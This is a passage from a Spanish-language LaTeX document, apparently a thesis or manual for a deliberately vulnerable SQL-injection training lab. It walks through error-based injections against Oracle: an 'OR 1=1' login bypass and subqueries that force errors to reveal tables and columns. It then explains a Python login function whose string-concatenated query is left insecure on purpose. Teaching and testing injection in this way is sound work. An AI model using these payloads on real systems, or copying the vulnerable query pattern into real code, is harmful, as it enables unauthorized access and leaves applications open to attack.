el esquema y el contenido de la base de datos, lo que permite al atacante ejecutar consultas maliciosas para obtener acceso no autorizado 
a los datos o comprometer la integridad del sistema.

\subsection{Mecanismo del Ataque}

\begin{itemize}
    \item \textbf{Explotación de Mensajes de Error:}
    Durante el desarrollo de aplicaciones web, los desarrolladores suelen habilitar mensajes de error detallados para depurar problemas. 
    Si estos mensajes no se desactivan en producción, los atacantes pueden intencionalmente introducir consultas mal formadas o comandos SQL 
    en los puntos de entrada de la aplicación (por ejemplo, formularios o parámetros URL) para provocar errores.

    \item \textbf{Uso de Consultas Maliciosas:}
    El atacante inserta código SQL diseñado para causar un error deliberado y obtener un mensaje detallado de la base de datos. 
    Estos mensajes pueden revelar información sensible como nombres de tablas, nombres de columnas, tipos de datos o incluso fragmentos del 
    contenido almacenado.

    \item \textbf{Iteración del Proceso:}
    Basándose en los datos recopilados de los mensajes de error, el atacante ajusta y refina sus consultas maliciosas para extraer información 
    adicional o lograr un acceso más profundo al sistema.
\end{itemize}

Para acceder a la sección especifica para esta inyección en el laboratorio, una vez desplegado el servidor con una apariencia como la siguiente:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/MenuPrincipalLaboratorio.png}
    \caption{Página de inicio del laboratorio de inyecciones SQL}
\end{figure}

Para acceder a la sección especifica para esta inyección en el laboratorio, una vez desplegado el servidor, se debe seleccionar la opción \textit{Database-Errors SQL Injection}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/error1.png}
    \caption{Opción de Database Errors en el laboratorio de inyecciones SQL}
\end{figure}

Como es posible observar, se tienen dos posibles opciones de trabajo de inyecciones en funcion de la base de datos que este trabajando de fondo, \textbf{Oracle} y \textbf{PostgreSQL}.
Como va a ser común entre las diferentes secciones en el laboratorio, se tiene un formulario básico de inicio de sesión con dos campos: \textit{usuario} y \textit{contraseña},
simulando lo que podria ser una ventana de login en una página web genérica.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/error2.png}
    \caption{Formulario de inicio de sesión para inyección tipo Database-Errors}
\end{figure}

%Workflow de explotación (probando cada inyeccion). Mencionar al final que se ha documentado en oracle, 
%pero que en Postgre se sigue la misma logica de explotacion pero adaptando las inyecciones, y mostrar las inyecciones adaptadas, explicando las diferencias.

\subsection{Login sin credenciales válidas}
Como primer punto se ha decidido hacer mención al tipo de inyección para poder saltar el login sin credenciales válidas, ya que es un tipo de inyección fundamental y básica que va a funcionar en ambos SGBD
y en todas las subsecciones del laboratorio.

De modo que para realizar dicha inyección en el selector de inyecciones de la derecha, debajo de las tarjetas de información relevante se deberá seleccionar el tipo de inyección "Login sin credenciales válidas"
y muestra la siguiente información para introducir en los campos \textbf{Usuario} y \textbf{Contraseña}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/error3.png}
    \caption{Datos a introducir en los campos del formulario}
\end{figure}

Como se puede observar en el código de inyección para el campo de la contraseña en el formulario, se aprovecha de la capacidad de SQL de poder trabajar con lógica booleana para inyectar
que la comprobación de que el conjunto \textit{usuario} y \textit{contraseña} esten en una tupla de la tabla o que 1 es igual a 1 (comentando lo que venga detras para evitar comporbaciones secundarias),
de modo que esta comprobación siempre va a ser cierta por la segunda parte de la comprobación.

\begin{lstlisting}[language=SQL]
SELECT * FROM Usuarios WHERE username = 'cualquier_input' AND password = 'cualquier_input' OR 1=1 --'
\end{lstlisting}

Atendiendo al diccionario de inyecciones en el código de la aplicación, en el caso de las inyecciones basadas en errores de la base de datos, se estaria usando la función con la vulnerabilidad
que permita mostrar este tipo inyección, denominada "login\_inseguro\_errors\_oracle".

Al ejecutar la función de inyección en el laboratorio, se obtiene un mensaje de éxito en la autenticación, lo que indica que la inyección ha sido exitosa 
y se ha logrado eludir la autenticación sin necesidad de credenciales válidas, puidendo observar la sentencia SQL total ejecutada y la tupla resultado obtenida de la tabla,
que debido a la naturaleza de la inyección, se ha devuelto la primera tupla de la tabla.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/error4.png}
    \caption{Resultado de la inyección para login sin credenciales válidas}
\end{figure}

\subsection{Información sobre las tablas}

En la siguiente inyección se va a mostrar como se puede obtener información sobre las tablas de la base de datos, 
en este caso se va a obtener el nombre de las tablas de la base de datos.
Para realizar dicha inyección en el selector de inyecciones de la derecha, 
debajo de las tarjetas de información relevante se deberá seleccionar el tipo de inyección "Información sobre las tablas"
y muestra la siguiente información para introducir en los campos \textbf{Usuario} y \textbf{Contraseña}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/error5.png}
    \caption{Datos a introducir en los campos del formulario}
\end{figure}

En el código de inyección para el campo de la usuario en el formulario, 
se aprovecha de la capacidad de SQL de poder trabajar con lógica booleana para inyectar la busqueda de la información de una tabla
que se sospecha que no exista, para forzar al sistema que devuelva un error y muestre la información del error que se ha producido,
lo que hace que al conocer el error se pueda inferir información sobre el tipo de base de datos sobre la que se esta trabajando.

\begin{lstlisting}[language=SQL]
    SELECT * FROM Usuarios WHERE username = '' OR 1=(SELECT * FROM tabla_inexistente) --' AND password = 'cualquier_input'
\end{lstlisting}

Del mismo modo en que se ha hecho en la inyección anterior, 
se ha implementado una función en el código de la aplicación que permita mostrar este tipo inyección, denominada "login\_inseguro\_errors\_oracle".

Al ejecutar la función de inyección en el laboratorio, la inyección no devuelve directamente en el login un error de inicio de sesión,
ya que la lógica de la sentencia es correcta por lo que en el login no se mostraria retroalimentación del error. Sin embargo,
en la sección de la derecha donde se muestra la información de la inyección, se puede observar la sentencia SQL total ejecutada y el error que se ha producido,
en el caso de una posible ejecución usando el SGBD de Oracle se produciria el siguiente error:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/error6.png}
    \caption{Resultado de la inyección para información sobre las tablas}
\end{figure}

\subsection{Información sobre las columnas de una tabla}

En la siguiente inyección se va a mostrar como se puede obtener información sobre las columnas de una tabla de la base de datos,
en este caso se va a obtener el nombre de las columnas de la tabla \textit{Usuarios}.
Para realizar dicha inyección en el selector de inyecciones de la derecha,
debajo de las tarjetas de información relevante se deberá seleccionar el tipo de inyección "Información sobre las columnas de una tabla"
y muestra la siguiente información para introducir en los campos \textbf{Usuario} y \textbf{Contraseña}.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/error7.png}
    \caption{Datos a introducir en los campos del formulario}
\end{figure}

En el código de inyección para el campo de la usuario en el formulario,
a partir de la capacidad de SQL de poder trabajar con lógica booleana se inyecta la busqueda de la información de una columna
que se sospecha que no exista, para forzar al sistema que devuelva un error y muestre la información del error que se ha producido,
lo que hace que al conocer el error se pueda inferir información sobre el tipo de base de datos sobre la que se esta trabajando o
en caso de encontrar un caso en el que no se genere error, se puede inferir información sobre la estructura de la tabla.

\begin{lstlisting}[language=SQL]
    SELECT * FROM Usuarios WHERE username = '' OR 1=(SELECT columna_inexistente FROM Usuarios) --' AND password = 'cualquier_input'
\end{lstlisting}

Siguiendo con la linea definida en las inyecciones anteriores, 
se ha implementado una función en el código de la aplicación que permita mostrar este tipo inyección, 
denominada "login\_inseguro\_errors\_oracle".

De manera muy similar a como a sido definido en el caso anterior, la inyección no devuelve directamente en el login un error de inicio de sesión,
ya que la lógica de la sentencia es correcta por lo que en el login no se mostraria retroalimentación del error. Sin embargo,
en la sección de la derecha donde se muestra la información de la inyección, se puede observar la sentencia SQL total ejecutada y el error que se ha producido,
en el caso de una posible ejecución usando el SGBD de Oracle se produciria el siguiente error:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/error8.png}
    \caption{Resultado de la inyección para información sobre las columnas de una tabla}
\end{figure}

\subsection{Código vulnerable del login en Oracle}
Esta función \texttt{login\_inseguro\_errors\_oracle} intenta realizar la autenticación de un usuario verificando su nombre de usuario y contraseña en una base de datos Oracle. A continuación, explicamos cada parte de la función en detalle.

\subsubsection{Inicio de la Función}
La función comienza con algunas impresiones de depuración:

\begin{lstlisting}[language=Python]
def login_inseguro_errors_oracle(username, password):
    print("---login---")
    print ("---login_inseguro_errors---")
\end{lstlisting}

Esto simplemente imprime un mensaje indicando que se ha llamado a la función, útil para seguimiento en logs.

\subsubsection{Conexión a la Base de Datos}
El siguiente bloque de código establece una conexión a la base de datos:

\begin{lstlisting}[language=Python]
    conexion = dbConectarOracle()  # Abre la conexión para autenticación
    if not conexion:
        print("Error: no se pudo conectar para autenticar.")
        return False
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Llama a la función \texttt{dbConectarOracle()} para intentar abrir una conexión.
    \item Si no se logra establecer la conexión, muestra un mensaje de error y devuelve \texttt{False}.
\end{itemize}

\subsubsection{Construcción de la Consulta SQL}
El siguiente bloque construye la consulta SQL para verificar las credenciales:

\begin{lstlisting}[language=Python]
    sentencia = "SELECT * FROM Usuarios WHERE username = '"+username+"' AND password = '"+password+"'"
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Se genera una consulta SQL concatenando directamente el nombre de usuario y la contraseña.
    \item \textbf{Problema de Seguridad:} Este método es altamente inseguro, ya que permite inyección SQL. Se debe utilizar consultas parametrizadas.
\end{itemize}

\subsubsection{Ejecución de la Consulta}
La consulta se ejecuta y se verifica si el usuario existe:

\begin{lstlisting}[language=Python]
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia)
        usuario = cursor.fetchone()
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Se obtiene un cursor de la conexión para ejecutar la consulta.
    \item \texttt{execute(sentencia)} ejecuta la consulta SQL.
    \item \texttt{fetchone()} recupera el primer resultado, si existe.
\end{itemize}

\subsubsection{Cierre de la Conexión}
Después de ejecutar la consulta, la conexión se cierra:

\begin{lstlisting}[language=Python]
        cursor.close()
        dbDesconectar(conexion)  # Cierra la conexión después de la autenticación
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Se cierra el cursor para liberar recursos.
    \item Se cierra la conexión a la base de datos con \texttt{dbDesconectar()}.
\end{itemize}

\subsubsection{Verificación del Usuario}
El siguiente bloque determina si la autenticación fue exitosa:

\begin{lstlisting}[language=Python]
        if usuario:
            print("Usuario autenticado:", usuario)
            return {"resultado":usuario,"sentencia":sentencia, "auth":"true"}
        else:
            print("Usuario o contraseña incorrectos")
            return {"sentencia":sentencia}
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Si se recupera un usuario, se devuelve un diccionario con la información del usuario y la sentencia SQL utilizada.
    \item Si no, se indica que las credenciales son incorrectas.
\end{itemize}

\subsubsection{Manejo de Errores}
El bloque \texttt{try-except} captura errores durante la ejecución:

\begin{lstlisting}[language=Python]
    except PBD.DatabaseError as error:
        print("Error al autenticar usuario")
        print(error)
        dbDesconectar(conexion)
        return {"resultado":error, "sentencia":sentencia}
\end{lstlisting}

\textbf{Explicación:}
\begin{itemize}
    \item Si ocurre un error durante la consulta, se captura y se muestra el mensaje de error.
    \item Se asegura que la conexión se cierre en caso de error.
    \item Devuelve un diccionario con el error y la sentencia SQL utilizada.
\end{itemize}

\subsubsection{Resumen de Problemas de Seguridad}
\begin{itemize}
    \item La concatenación de cadenas en la consulta SQL permite ataques de inyección SQL.
    \item No se utiliza un sistema de autenticación seguro ni se implementan medidas de encriptación para las contraseñas.
\end{itemize}

\subsubsection{Código Completo}
\begin{lstlisting}[language=Python]
def login_inseguro_errors_oracle(username, password):
    print("---login---")
    print ("---login_inseguro_errors---")
    conexion = dbConectarOracle()  # Abre la conexión para autenticación
    if not conexion:
        print("Error: no se pudo conectar para autenticar.")
        return False

    sentencia = "SELECT * FROM Usuarios WHERE username = '"+username+"' AND password = '"+password+"'"
    try:
        cursor = conexion.cursor()
        cursor.execute(sentencia)
        usuario = cursor.fetchone()

        cursor.close()
        dbDesconectar(conexion)  # Cierra la conexión después de la autenticación
        if usuario:
            print("Usuario autenticado:", usuario)
            return {"resultado":usuario,"sentencia":sentencia, "auth":"true"}
        else:
            print("Usuario o contraseña incorrectos")
            return {"sentencia":sentencia}
    except PBD.DatabaseError as error:
        print("Error al autenticar usuario")
        print(error)
        dbDesconectar(conexion)
        return {"resultado":error, "sentencia":sentencia}
\end{lstlisting}

\subsection{Código vulnerable del login en PostgreSQL}

Esta función \texttt{login\_inseguro\_errors\_postgresql} intenta realizar la autenticación de un usuario verificando su nombre de usuario y contraseña en una base de datos PostgreSQL. A continuación, explicamos cada parte de la función en detalle.

